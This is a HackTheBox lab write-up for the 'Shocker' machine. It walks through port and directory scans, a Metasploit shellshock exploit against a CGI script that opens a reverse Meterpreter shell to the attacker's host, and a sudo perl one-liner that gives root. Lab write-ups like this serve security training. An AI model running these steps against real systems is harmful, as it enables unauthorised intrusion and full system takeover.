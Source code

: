 ```yaml
---
title: Shocker writeup
date: 2022-07-02 13:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["Easy-box", "metasploit"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/shocker/
image: # Thumbnail 
  src: Shocker.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


## Summary
A straightforward box showcasing the shellshock vulnerability with a simple root step. Enjoy!
## Foothold
We start out by doing an nmap port scan:

```console
┌──(bitis㉿workstation)-[~/htb/Machines/Shocker]
└─$ nmap -sC -sV 10.129.1.175 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-02 18:11 CEST
Nmap scan report for 10.129.1.175
Host is up (0.023s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.09 seconds
```
Visiting the web application hosted via port 80 we are greeted with the following doodle of a bug:

![](welcome.png)

The site is otherwise very bare. Doing a scan with `feroxbuster` we find the `cgi-bin` directory. 

```console
┌──(bitis㉿workstation)-[~/htb/Machines/Shocker]
└─$ feroxbuster -u http://10.129.1.175/ -r -x php js html pdf -B -w /usr/share/wordlists/dirb/common.txt                                                                                                                                1 ⨯

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.1.175/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirb/common.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php, js, html, pdf]
 🏦  Collect Backups       │ true
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        9l       13w      137c http://10.129.1.175/
403      GET       11l       32w      296c http://10.129.1.175/.htpasswd
403      GET       11l       32w      297c http://10.129.1.175/.htpasswd~
403      GET       11l       32w      300c http://10.129.1.175/.htpasswd.bak
403      GET       11l       32w      301c http://10.129.1.175/.htpasswd.bak2
403      GET       11l       32w      300c http://10.129.1.175/.htpasswd.old
403      GET       11l       32w      298c http://10.129.1.175/.htpasswd.1
403      GET       11l       32w      296c http://10.129.1.175/.htaccess
---SNIP---
403      GET       11l       32w      312c http://10.129.1.175/cgi-bin/.htpasswd.pdf.bak
403      GET       11l       32w      313c http://10.129.1.175/cgi-bin/.htpasswd.pdf.bak2
403      GET       11l       32w      312c http://10.129.1.175/cgi-bin/.htpasswd.pdf.old
403      GET       11l       32w      310c http://10.129.1.175/cgi-bin/.htpasswd.pdf.1
200      GET        9l       13w      137c http://10.129.1.175/index.html
403      GET       11l       32w      300c http://10.129.1.175/server-status
[####################] - 15s    46369/46369   0s      found:196     errors:0      
[####################] - 13s    23070/23070   1754/s  http://10.129.1.175/ 
[####################] - 13s    23070/23070   1774/s  http://10.129.1.175/cgi-bin/
```
Searching for an exploit related to this directory, we quickly find about about `shellshock`, a vulnerability which can be used to gain code execution on the target system. More info can be found [here](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock). The exploit can be used to gain a foothold on the system.

```console
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/user.sh
TARGETURI => /cgi-bin/user.sh
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.10.14.31:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (989032 bytes) to 10.129.1.175
[*] Meterpreter session 1 opened (10.10.14.31:4444 -> 10.129.1.175:41436) at 2022-07-02 18:29:44 +0200

meterpreter > getuid
Server username: shelly
meterpreter > shell
Process 1737 created.
Channel 1 created.
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
## Privilege escalation
To gain root on the system we need to exploit that we can run perl as root. See [here](https://gtfobins.github.io/gtfobins/perl/) for more information. 

```console
sudo /usr/bin/perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
```
Rooted!